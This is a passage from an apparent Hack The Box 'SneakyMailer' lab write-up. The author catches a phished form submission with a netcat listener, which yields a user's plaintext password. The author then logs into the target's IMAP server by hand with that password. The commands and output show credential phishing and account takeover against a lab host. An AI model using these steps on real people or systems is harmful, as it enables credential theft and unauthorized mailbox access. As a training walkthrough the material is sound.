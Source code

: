 I stopped that and opened `nc` on port 80 to catch the request, and sent the phish again:

```

root@kali# nc -lnvp 80
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:58924.
POST / HTTP/1.1
Host: 10.10.14.42
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 185
Content-Type: application/x-www-form-urlencoded

firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt

```

It is posting creds for paulbyrd@sneakymailer.htb.

### IMAP Access

I’ll show both the manual way to access IMAP with `nc` as well as using a mail client.

#### Manual

With creds for Paul, I can check his email. I can interact with IMAP manually with `nc` on port 143 (or if I want to use the TLS version on port 993, I can use `ncat` (which is `nc` is aliased to on my machine) with the `--ssl` option). I showed this similar process in [Chaos](/2019/05/25/htb-chaos.html#imap).

IMAP commands each start with a tag. Most clients use A0001, but it can be anything. When the server responds, it will often reference the tag from the command that inspired it. I’ll start by logging in:

```

root@kali# nc 10.10.10.197 143
* OK [CAPABILITY IMAP4rev1 UIDPLUS CHILDREN NAMESPACE THREAD=ORDEREDSUBJECT THREAD=REFERENCES SORT QUOTA IDLE ACL ACL2=UNION STARTTLS ENABLE UTF8=ACCEPT] Courier-IMAP ready. Copyright 1998-2018 Double Precision, Inc.  See COPYING for d
istribution information.
A0001 login paulbyrd ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
* OK [ALERT] Filesystem notification initialization error -- contact your mail administrator (check for configuration errors with the FAM/Gamin library)
A0001 OK LOGIN Ok. 

```
